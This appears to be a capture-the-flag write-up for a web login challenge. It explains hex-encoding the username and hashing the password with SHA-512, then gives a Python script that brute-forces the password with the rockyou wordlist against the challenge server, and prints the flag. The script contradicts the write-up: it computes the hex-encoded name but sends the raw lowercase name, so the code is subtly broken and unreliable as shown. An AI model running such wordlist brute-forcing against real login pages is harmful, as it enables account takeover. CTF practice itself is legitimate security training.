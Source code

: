 # Broken login (web/guessing, 365p, 20 solved)

## Description

```
Intern season is up again and our new intern Alex had to do a simple login page. 
Not only the login page is not working properly, it is also highly insecure...

Flag format: CTF{sha256}
```

In the task we get a webpage with login form.

## Task analysis

Once we type credentials in the form a POST is sent to `/login` and we get back redirect to `/auth` but our login got `hex-encoded`, parameter changed name from `name` to `username` and password turned into its `sha512`.

## Solution

### Guessing 

It took us a very long time to guess that `the login page is not working properly` from task description was supposed to hint that this parameter name change was a `bug`.

### Getting user

Once we go to `/auth` with `name` and `password` we get a new message `Invalid user`.
Since the task description mentions `Alex` and we know we just need to `hex-encode`, we try with `416c6578` and we get `Invalid password` now.

### Getting password

Now we spent very long time trying to guess the next step.
Description hints at `it is also highly insecure`, so we expected some web-vulnerability, maybe SQLi or at least a timing attack of some sort when comparing password.

Finally the crystal ball has spoken -> maybe let's just try bruteforce the password with `rockyou`?

```python
import codecs
import hashlib
import requests
import binascii

def main():
    with codecs.open("rockyou.txt", 'rb') as pass_file:
        name = 'alex'  # Define 'name' outside the loop
        for p in pass_file.readlines():
            password = hashlib.sha512(p.strip()).hexdigest()
            print(password)
            name_hex = binascii.hexlify(name.encode('utf-8')).decode('utf-8')
            print(name_hex)
            r = requests.get("http://35.198.135.192:31428/auth?name=" + name + "&password=" + password)
            if 'Invalid' not in r.text:
                print(p, r.text)
                break
            print(p, r.text)

if __name__ == '__main__':
    main()

```

And after a moment we get: `CTF{bf3dd66e1c8e91683070d17ec2afb13375488eee109a0724bb872c9d70b7cc3d}`
